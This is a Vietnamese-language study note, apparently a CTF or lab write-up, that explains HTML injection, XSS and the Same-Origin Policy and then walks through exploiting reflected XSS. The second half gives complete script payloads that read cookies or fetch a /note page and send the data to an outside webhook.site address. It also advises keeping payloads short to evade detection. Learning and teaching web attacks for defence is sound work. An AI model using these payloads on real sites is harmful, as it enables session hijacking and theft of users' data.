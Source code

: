 # HTML INJECTION

## Giới thiệu
HTML, hay còn gọi là Hyper Text Markup Language là ngôn ngữ được sử dụng để `tạo` và `cấu trúc` các thành phần trong trang web

Nếu ví Website như một con Robot thì `HTML` chính là `bộ khung` của Robot, `CSS` là phần `design` bên ngoài, còn `JavaScript` chính là các phần `máy móc` để Robot hoạt động.

**Cách trình duyệt xử lý HTML**
```
Dựa trên các thuộc tính có trong các tag HTML, browser sẽ render ra hình ảnh ấy và hiển thị cho người dùng
Chẳng hạn như <img.src = "..<link_ảnh>.."> , hoặc với các tag khác như <h1> hay <p>, ...
```

**Làm thế nào Browser biết rằng response là một file HTML mà không phải là loại file khác?**

![](./images/response_htmltag.jpeg)

Đó chính là dựa vào Header `Content-Type`. Nếu Content-Type là : `text/html` thì browser sẽ render file HTML ấy và trả về cho người dùng

**Vậy đối tượng nào sẽ xử lý HTML?**

- HTML Rendering: Browsers, Application,...
- HTML Editor: Rich Text Editor, Markdown( Là cái thứ mà tôi đang sử dụng để viết cho các bạn đọc đây ),...

Quay lại với `bản chất` của Injection, đó chính là khiến đối tượng hiểu nhầm `Untrust Data` là `Instruction`

Vậy có những Instruction nào nguy hiểm mà attacker có thể lợi dụng không?

- Đó chính là lợi dụng tính năng `Tích hợp với JavaScript`, nơi xử lý các `Event Handller`

![](/images/HTML_event.jpeg)

Vậy từ đó, chúng ta sẽ chuyển sang đối tượng JavaScript, tuy nhiên `root cause` của lỗi này vẫn là `HTML injection`

**Các tính năng chính của JavaScript**

![](/images/function_js.jpeg)

Sẽ ra sao nếu trình duyệt xử lý Untrust HTML? Vậy attacker khiến trình duyệt nạn nhân xử lý Untrust HTML như thế nào?

**Viễn cảnh 1**
```
Khi attacker chèn mã JavaScript vào Web-App và gửi đến cho nạn nhân, mà mã JavaScript này có các hàm xử lý để truy xuất thông tin của nạn nhân. Vì Web-app không xử lý nội dung trả về, khiến cho trình duyệt xử lý đoạn script đó. (trường hợp này là XSS Reflected, tức là nhập gì vào thì sẽ phản chiếu lại cái đó)
```
**Viễn cảnh 2**

```
Khi attacker chèn mã JavaScript vào đâu đó được lưu trữ, và khi nạn nhân truy cập, nơi đó được SELECT ra và render cho nạn nhân, khiến mã JavaScript được thực thi (trường hợp này là XSS Store)
```
**Viễn cảnh xxx**

```
Social Engineering, ...
```
---
**Liệu ta có thể sử dụng JavaScript để đọc trộm thông tin từ một trang khác nào đó từ trang web của chúng ta không?**
- Câu trả lời là không. Vì các trình duyệt đều áp dụng cơ chế bảo mật SOP


Chính sách SOP hay còn gọi là `Same-Origin-Policy`, là bộ quy tắc để bảo vệ người dùng, tránh việc hai trang có `Origin` khác nhau tương tác với nhau (Đọc,ghi,...) với tài nguyên của nhau

**Vậy khi nào 2 trang web có chung một Origin?**
- Đó chính là khi 2 trang web có cùng chung : `protocol`, `host` và `port`

**Có những thông tin quan trọng của người dùng như thế nào mà attacker muốn lấy?**
- Có rất nhiều thông tin mà attacker muốn lấy từ người dùng, mà trong đó phổ biến nhất đó chính là `Cookie` (Cookie chỉ là một trong những hệ quả của việc Exploit XSS, `không phải trường hợp nào cũng là Cookie`)

---
## Tóm lại

![](./images/html_rootcause.jpeg)

![](./images/xss_rootcause.jpeg)

---

# Exploitation : Reflected XSS

## Bước 1:

Thử chèn các tag html và xem trang web phản ứng như thế nào
Nếu phát hiện Injection được tag HTML thì đến bước tiếp theo

## Bước 2: HTML Injection chạy những tag JavaScript để trộm cookie hoặc fetch trang page /note về ( Tại vì page này chứa flag ) 

Mở Dev-tools và test những đoạn code JS Exploit trước

Đọc document.cookie:
 ```data.document.cookie;```


Fetch /note:
```JavaScript
fetch("/note").then(response => response.text()).then( data => console.log(data));
```

## Bước 3: Dùng	chính JavaScript để leak data ra ngoài Internet ( Cụ thể là Webhook ) 

Cách 1 để leak data ra: Đó là sử dụng chính Fetch API để tuồn data ra bằng method POST

fetch('/note').then(response => response.text()).then ( data => {
fetch("https://webhook.site/43e77ad7-1442-4124-8f0d-8edff9f55069", {
method : "POST",
body : data,
});
});

Cách 2 Tạo ra một tấm ảnh và gán đường dẫn là đường dẫn của Webhook để gửi HTTP 

**Lưu ý : Phải encode tất cả dấu + để tránh nhầm lẫn giữa kí tự [space]**
```data_leak = document.cookie 		// Gắn giá trị cookie vào biến data_leak
anh = new Image()   			// Tạo Object anh
anh.src = "https://webhook.site/43e77ad7-1442-4124-8f0d-8edff9f55069?leak="%2Bdata_leak	
// Lợi dụng thuộc tính .src để gửi gói `GET` đến địa chỉ cộng với biến `data_leak`
// Có thể sử dụng hàm unescapse để lấy cookie thật ( Vì đã được mã hoá URL )
```
## Bước 4: Tạo ra một payload hoàn chỉnh và gửi cho victim
Payload 1 : Tạo Image
``` 
URL_target?q=
<script>
URL_receive = "https://webhook.site/43e77ad7-1442-4124-8f0d-8edff9f55069?leak=";
data_leak = document.cookie;
anh = new Image();
anh.src =  URL_receive%2Bdata_leak;
</script> 
```
Payload 2 : Fetch API rồi sử dụng Fetch 1 lần nữa để gửi HTTP POST request đến Webhook.site

```
URL_target?q=
<script>
fetch('/note').then(response => response.text()).then ( data => {
fetch("https://webhook.site/43e77ad7-1442-4124-8f0d-8edff9f55069", {
method : "POST",
body : data,
});
});
</script>
```

Payload 3 : Tương tự như cách 2 nhưng là method GET

```
URL_target?q=
<script>
fetch('/note').then(response => response.text()).then ( data => {
fetch("https://webhook.site/43e77ad7-1442-4124-8f0d-8edff9f55069?data=" %2B data);
});
</script>
```
Payload xxx : Có rất nhiều cách để `tuồn` data ra ngoài, chẳng hạn như thay vì sử dung fetch API để gửi thì cũng có thể sử dụng Image để gửi

## Lưu ý :
**Cố gắng tạo một payload thật ngắn gọn để tránh việc bị phát hiện cũng như tối ưu hơn**

Thì cách tạo payload ngắn gọn như thế nào ----> Học và hiểu, thử và thử
Dưới đây là đoạn payload JS ngắn gọn trong trường hợp payload là image : 
`new Image().src = "https://webhook.site/43e77ad7-1442-4124-8f0d-8edff9f55069?leak="%2Bdocument.cookie`

---

**Kiến thức của mình tạm thời chỉ có thể đến đây, khi nào mình cảm thấy có thể lĩnh hội được nhiều hơn thì sẽ tiếp tục commit lại bài này!** 

**Cảm ơn các bạn đã đọc, cũng cảm ơn chính bản thân mình**